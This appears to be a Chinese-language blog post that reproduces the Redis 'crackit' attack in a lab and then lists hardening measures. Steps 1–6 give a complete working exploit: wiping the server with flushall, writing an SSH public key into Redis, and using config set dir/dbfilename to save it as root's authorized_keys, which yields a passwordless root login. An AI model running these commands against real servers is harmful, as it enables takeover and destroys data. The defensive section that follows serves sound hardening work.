 ```yaml
---
title: Redis-Crackit漏洞测试
tags:
  - redis-crackit
  - redis漏洞
id: 686
categories:
  - Redis
date: 2015-11-12 13:57:58
---
```


目前redis crackit漏洞爆出可以通过系统sh登录。免密码的，所以这个是很严重的。

下面我自己测试了下，并有几条防范措施。
<div>环境：</div>
<div>客户端：10.19.21.241</div>
<div>服务端：10.19.21.242（此服务器运行redis服务的用户是root，如果不是root不能测试。）</div>
<div></div>
<!-- more -->
### 1\. 首先客户端生成ssh key

<div>
<pre class="lang:sh decode:true ">[root@VM-241 ~]# ssh-keygen -t rsa -C "crackit@redis.io"
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
The key fingerprint is:
bb:16:6e:39:57:d4:b7:c0:dc:ed:05:80:a5:4e:7d:ae crackit@redis.io
The key's randomart image is:
+--[ RSA 2048]----+
|           oo.   |
|          .o  .  |
|          o +.o..|
|         o  .*..+|
|        S ..  ooo|
|        ..  .. ..|
|       ..o .E    |
|        *..      |
|       o.o       |
+-----------------+</pre>

### 2\. 给公钥添加换行

<pre class="lang:sh decode:true ">[root@VM-241 ~]# (echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") &gt; redis.txt</pre>

### 3\. 清空服务器redis数据（慎重操作）

<pre class="lang:sh decode:true ">[root@VM-241 ~]# redis-cli -h 10.19.21.242 flushall
OK</pre>

### 4\. 将公钥写入到redis的key中

<pre class="lang:sh decode:true ">[root@VM-241 ~]# cat redis.txt |redis-cli -h 10.19.21.242 -x set redis
OK</pre>

### 5\. 连接redis服务器

<pre class="lang:sh decode:true ">[root@VM-241 ~]# redis-cli -h 10.19.21.242 
redis 10.19.21.242:6379&gt; config set dir /root/.ssh #设置rdb存放路径
OK
redis 10.19.21.242:6379&gt; config set dbfilename "authorized_keys" #设置rdb文件的文件名
OK
redis 10.19.21.242:6379&gt; save
OK
redis 10.19.21.242:6379&gt; exit</pre>

### 6\. 尝试登录

<pre class="lang:sh decode:true ">[root@VM-241 ~]# ssh root@10.19.21.242
The authenticity of host '10.19.21.242 (10.19.21.242)' can't be established.
RSA key fingerprint is 12:79:d4:36:00:1d:de:48:13:bc:eb:e7:ca:83:84:c3.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.19.21.242' (RSA) to the list of known hosts.
Last login: Wed Apr 15 19:16:22 2015 from 10.19.10.25
[root@VM-242 ~]# 

查看公钥内容
[root@VM-242 ~]# cat /root/.ssh/authorized_keys
REDIS0002?redisA?

ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAwUkf3THelm1tARScEkGDZkHiixtBUiS7nW6ShdIcK0apiL+/7CYh/SrCX1k9X0+wFhhNbdQBdz+AIPpQA2UlhAogsj6YRR1vXYORumw2tRmAkxBifvsV/ZZs54u50O6NmMesZRfkzMqskoZCwNVKbzPWuXKmcrIyBnQzRp9NL7YjQXQnAqkD7btGjpdZZudqr/IUnkcS1i8dAbRnF0jQybrT8NnbiqOWVnuIhlXVgnASdI+Qq/p0w83HuuivXZLMMuIwfU9Tj30hV+haqatib1L0G+QyUBpgVmxuUZJrGlMsM+Nj15K8TIPeK4cQ419SbbJXrkqWX2fPok7+9iiD6w== crackit@redis.io

?[root@VM-242 ~]# exit</pre>
这样表示这台服务器被外部控制

### 7\. 如何防护

##### 7.1 在服务器端禁用flushall命令。

<pre class="lang:sh decode:true">[root@VM-242 ~]# echo 'rename-command flushall ""' &gt;&gt; /etc/redis.conf
[root@VM-242 ~]# /etc/init.d/redis restart</pre>

##### 客户端测试

<pre class="lang:sh decode:true ">[root@VM-241 ~]# redis-cli -h 10.19.21.242 flushall
(error) ERR unknown command 'flushall'</pre>

##### 7.2 服务器端设置redis的监听地址为127.0.0.1

<div>
<pre class="lang:sh decode:true ">[root@VM-242 ~]# vim /etc/redis.conf
bind 127.0.0.1</pre>

##### 7.3 建议不要用root用户运行。我是yum安装，默认启动用户是redis，为了测试，在服务里更改成root。大家测试也可以这么修改。

<pre class="lang:sh decode:true ">[root@VM-242 ~]# vim /etc/init.d/redis
start() {
    [ -f $REDIS_CONFIG ] || exit 6
    [ -x $exec ] || exit 5
    echo -n $"Starting $name: "
    #daemon --user ${REDIS_USER-redis} "$exec $REDIS_CONFIG"
    daemon --user root  "$exec $REDIS_CONFIG"
    retval=$?
    echo
    [ $retval -eq 0 ] &amp;&amp; touch $lockfile
    return $retval
}</pre>

##### 7.4 设置redis服务器密码

<div>
<pre class="lang:sh decode:true ">[root@VM-242 ~]# echo "requirepass  xxoo" &gt;&gt; /etc/redis.conf</pre>
&nbsp;

</div>
</div>
</div>
